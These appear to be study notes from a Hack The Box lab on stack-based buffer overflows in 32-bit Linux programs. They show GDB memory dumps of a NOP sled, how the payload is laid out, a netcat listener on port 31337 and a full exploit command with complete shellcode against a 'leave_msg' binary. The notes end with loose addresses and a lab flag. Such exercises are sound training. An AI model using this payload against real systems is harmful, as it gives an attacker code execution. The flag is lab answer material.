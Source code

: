 [[Stack-Based Buffer Overflows on Linux x86]]
After checking that we still control the EIP with our shellcode, we now **need a `memory address` where our NOPs are located to tell the EIP to jump to it.** This memory address must not contain any of the bad characters we found previously.

#### GDB NOPS
```shell-session
(gdb) x/2000xb $esp+1400

<SNIP>
0xffffd5ec:	0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd5f4:	0x55	0x55	0x55	0x55	0x55	0x55	0x90	0x90
								# End of "\x55"s   ---->|  |---> NOPS
0xffffd5fc:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd604:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd60c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd614:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd61c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd624:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd62c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd634:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd63c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd644:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd64c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd654:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd65c:	0x90	0x90	0xda	0xca	0xba	0xe4	0x11	0xd4
						 # |---> Shellcode
<SNIP>
```

Here, we now have to choose an address to which we refer the `EIP` and which reads and executes one byte after the other starting at this address. In this example, we take the address `0xffffd64c`. Illustrated, it then looks like this:

After selecting a memory address, we replace our "`\x66`" which overwrites the EIP to tell it to jump to the `0xffffd64c` address. Note that the input of the address is entered backward.

```shell-session
 Buffer = "\x55" * (1040 - 124 - 95 - 4) = 841
     NOPs = "\x90" * 124
Shellcode = "\xda\xca\xba\xe4\x11\xd4...<SNIP>...\x5a\x22\xa2"
      EIP = "\x4c\xd6\xff\xff"
```

```shell-session
nc -nlvp 31337
```

```shell-session
run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba...<SNIP>...\x5a\x22\xa2" + "\x4c\xd6\xff\xff"')
```

0xffffd716

"\x16\xd7\xff\xff"
AND EXPLOIT 

0x7ffff7e9d260 

```

./leave_msg $(python -c 'print "\x55" * (2064 - 124 - 95 - 4) + "\x90" * 124 + "\xba\xfc\x14\xba\x01\xda\xc9\xd9\x74\x24\xf4\x5e\x33\xc9\xb1\x12\x83\xee\xfc\x31\x56\x0e\x03\xaa\x1a\x58\xf4\x63\xf8\x6b\x14\xd0\xbd\xc0\xb1\xd4\xc8\x06\xf5\xbe\x07\x48\x65\x67\x28\x76\x47\x17\x01\xf0\xae\x7f\x98\x08\x5f\xc7\xf4\x0e\x5f\x4d\x6c\x86\xbe\x01\x08\xc8\x11\x32\x66\xeb\x18\x55\x45\x6c\x48\xfd\x38\x42\x1e\x95\xac\xb3\xcf\x07\x44\x45\xec\x95\xc5\xdc\x12\xa9\xe1\x13\x54" + "\x2e\xd7\xff\xff"')

```

HTB{wmcaJe4dEFZ3pbgDEpToJxFwvTEP4t}

0x22000

2060

ELF 32-bit